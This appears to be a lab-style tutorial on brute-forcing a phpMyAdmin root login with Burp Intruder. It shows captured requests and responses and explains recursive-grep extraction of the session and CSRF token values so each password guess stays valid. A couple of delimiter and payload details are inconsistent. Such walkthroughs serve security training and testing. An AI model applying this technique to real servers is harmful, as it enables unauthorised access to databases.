





## Sample post login request
1. Cookie with the value: phpMyAdmin
2. set_session post data: same value as the phpMyAdmin cookie
3. a password that we want to try
4. a token value in the post data
```
POST /phpmyadmin/index.php?route=/ HTTP/1.1
Host: nix
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 133
Origin: null
Connection: close
Cookie: phpMyAdmin=tcrg5ptlfkit2mik13vbsi2aah; pma_lang=en
Upgrade-Insecure-Requests: 1

set_session=tcrg5ptlfkit2mik13vbsi2aah&pma_username=root&pma_password=hello&server=1&route=%2F&token=504a3960426a23433839432548265756
```
## let's look at the response to the login request:
1. notice the value in the hidden set_session input value
```
<form method="post" id="login_form" action="index.php?route=/" name="login_form" class="disableAjax hide login js-show form-horizontal">
  <fieldset>
    <legend class="col-form-label">
      <input type="hidden" name="set_session" value="0epta11d41e5bqdjcon0pt37j4">
            Log in      <a href="./doc/html/index.html" target="documentation"></a>
    </legend>
```
2. notice the hidden token value
```
<div class='hide js-show'>
        <form method="get" action="index.php?route=/" class="disableAjax">
    <input type="hidden" name="db" value=""><input type="hidden" name="table" value=""><input type="hidden" name="token" value="2b3256584933672d4e29672d7e69584d">
```
## if we send the request to intruder, and got the options tab, we can extract useful information from responses and feed them to the attack results table.
1. we grab from `_session" value="` to `">` for the cookie value
2. we grab from `token" value="` to `:>` for the token value


## we then configure the payload locations


## and set them for their respective values
1. recursive grep: from `_session" value="` to `">` for the cookie value
2. recursive grep: from `_session" value="` to `">` for the cookie value
3. simple list: <PASSWORD_LIST>
4. recursive grep: from `token" value="` to `:>` for the token value


## after that, we set the resource pool for 1 max concurrent request to be compatible with our recursive grep payloads


## we then launc the attack and get a 302 redirect when the password is correct
